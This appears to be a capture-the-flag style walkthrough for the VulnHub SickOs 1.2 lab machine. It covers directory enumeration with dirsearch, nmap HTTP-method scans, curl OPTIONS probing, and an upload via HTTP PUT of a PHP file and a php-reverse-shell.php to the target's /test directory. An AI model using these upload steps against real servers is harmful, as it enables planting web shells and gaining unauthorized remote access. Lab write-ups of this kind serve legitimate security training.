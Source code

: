 ### 🚀 **SickOs 1.2 Machine**  
🔗 **Reference:** [SickOs 1.2 on VulnHub](https://www.vulnhub.com/entry/sickos-12,144/)

### 🔹 **Directory Enumeration Using Dirsearch**
```bash
• dirsearch -u http://192.168.31.219
```
Scans the specified web server for common directories and files using a wordlist.

### 🔹 **Scanning For HTTP Methods With Nmap**

#### 🔍 Basic HTTP Method Scanning
```bash
• nmap -v -Pn -sT -sV -p 80 --script=http-methods.nse 192.168.56.108
```
Scans the target on port 80 to list supported HTTP methods using the `http-methods.nse` script.

#### ⚙️ Advanced Scanning With Service And OS Detection
```bash
• nmap -v -sT -sV -A -O -p 80 --script=http-methods.nse 192.168.31.219
```
Performs service version detection, OS detection, and scans for available HTTP methods.

#### 🔢 Scanning Specific Path For HTTP Methods
```bash
• nmap -v -sT -sV -A -O -p 80 --script=http-methods.nse --script-args http-methods.url-path='/test' 192.168.31.219
```
Checks available HTTP methods for a specific path (`/test`) on the target server.

---

## 🧰 **Using cURL To Interact With HTTP Methods**

### ⚙️ OPTIONS Method
```bash
• curl -v -X OPTIONS http://192.168.31.219/test
• curl -v --request OPTIONS http://192.168.31.219/test
```
Retrieves allowed methods from the server for the given path using the OPTIONS method.

### ✏️ PUT Method (File Uploads And Payloads)
```bash
• vim phpinfo.php
```
```php
<?php
phpinfo();
?>
```
```bash
• curl -T phpinfo.php  http://192.168.31.219/test/
• curl -T 1.txt http://192.168.31.219/test/
• curl -X PUT -T "php-reverse-shell.php" http://192.168.31.219/test/
```
Uploads a file to the target using the PUT method.
